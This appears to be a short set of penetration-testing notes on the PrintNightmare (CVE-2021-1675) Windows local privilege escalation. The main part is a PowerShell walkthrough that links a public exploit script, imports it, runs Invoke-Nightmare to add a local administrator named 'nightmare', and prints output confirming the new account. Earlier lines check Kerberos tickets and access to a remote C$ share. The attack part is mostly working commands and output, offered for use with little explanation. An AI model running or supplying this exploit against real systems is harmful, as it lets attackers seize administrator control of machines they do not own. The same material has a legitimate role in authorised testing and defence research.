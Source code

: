 ![image](https://user-images.githubusercontent.com/13157446/130322674-610de4dc-5998-4fd1-ab96-d3807741f8b5.png)



check current tickets

![image](https://user-images.githubusercontent.com/13157446/130322696-6d6da2c7-0982-4650-994a-f2bed7f6fc94.png)


check you access

	dir \\odin\c$\


![image](https://user-images.githubusercontent.com/13157446/130322707-c5e5d93c-cf17-46f7-9b08-a675ec60a83d.png)


# Print nightmare LPE Sharpprintnightmare

to do

# Print nightmare LPE Powershell

Download script from here : https://github.com/gyaansastra/Print-Nightmare-LPE

check current users

	PS C:\Users\testuser\Desktop\share> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	Administrator            DefaultAccount           Guest
	WDAGUtilityAccount       win10
	The command completed successfully.


import and execute script

	PS C:\Users\testuser\Desktop\share> . .\CVE-2021-1675.ps1
	PS C:\Users\testuser\Desktop\share> Invoke-Nightmare -NewUser nightmare -NewPassword "Pass123!" -DriverName "printme"
	[+] created payload at C:\Users\win10\AppData\Local\Temp\nightmare.dll
	[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\mxdwdrv.dll"
	[+] added user nightmare as local administrator
	[+] deleting payload from C:\Users\win10\AppData\Local\Temp\nightmare.dll
	PS C:\Users\testuser\Desktop\share> net user

	User accounts for \\PC-WIN10

	-------------------------------------------------------------------------------
	Administrator            DefaultAccount           Guest
	nightmare                WDAGUtilityAccount       win10
	The command completed successfully.
